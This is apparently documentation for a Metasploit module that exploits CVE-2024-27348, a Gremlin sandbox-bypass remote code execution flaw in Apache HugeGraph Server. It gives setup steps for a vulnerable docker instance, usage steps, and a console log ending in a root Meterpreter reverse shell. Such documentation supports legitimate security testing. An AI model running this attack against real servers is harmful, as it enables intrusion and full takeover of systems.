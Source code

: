 ## Vulnerable Application
This module exploits CVE-2024-27348 which is a Remote Code Execution (RCE) vulnerability that exists in
Apache HugeGraph Server in versions before 1.3.0. An attacker can bypass the sandbox restrictions and achieve
RCE through Gremlin, resulting in complete control over the server

### Setup
To install a vulnerable instance via docker run the following command:
```
docker run -itd --name=graph -p 8080:8080 hugegraph/hugegraph:1.0.0
```

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/apache_hugegraph_gremlin_rce`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Apache HugeGraph 1.0.0 docker instance
```

msf6 exploit(multi/http/apache_hugegraph_gremlin_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(multi/http/apache_hugegraph_gremlin_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/apache_hugegraph_gremlin_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Apache HugeGraph version detected: 1.0.0
[*] 127.0.0.1:9191 - Executing Automatic Target for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 8 opened (172.16.199.1:4444 -> 172.16.199.1:53803) at 2024-07-29 13:59:20 -0700

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.4 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
